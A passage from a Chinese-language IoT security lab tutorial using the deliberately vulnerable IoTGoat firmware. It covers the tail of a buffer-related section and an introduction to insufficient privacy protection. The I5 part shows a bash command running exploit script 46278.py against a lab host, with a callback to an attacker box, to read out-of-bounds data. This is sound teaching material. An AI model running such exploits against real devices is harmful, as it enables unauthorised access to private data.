 ![I5-3](I5-3.png)

嘗試閱讀攻擊腳本的程式碼後便可對目標進行攻擊，使用以下指令，可以觀察到我們成功越界讀取到不該被讀取的資料。

```bash
python 46278.py --callback_ip ATTACKBOX_IP --callback_port 8787 LABBOX_IP 5000
```

![I5-4](I5-4.png)

## 🦉I6 隱私保護不足

隱私保護不足 (Insufficient Privacy Protection) 表示 IoT 設備未充分保護隱私資訊。導致敏感資訊洩露給未經授權的人。

發生該弱點的 IoT 設備通常具有以下幾點特徵：

- 蒐集超出需求的資訊
- 未將使用者資訊加密儲存或傳輸
- 未遵守隱私法規，例如：GDPR、CCPA 等

我們同樣可以透過 IoTGoat 的實作來觀察該弱點。在 `Firmwalker` 掃描的結果中可以發現從韌體中提取出來的資料存在結尾為 `.db` 的檔案 `sensordata.db`，有極高機率是資料庫的儲存檔案。

![I6-1](I6-1.png)
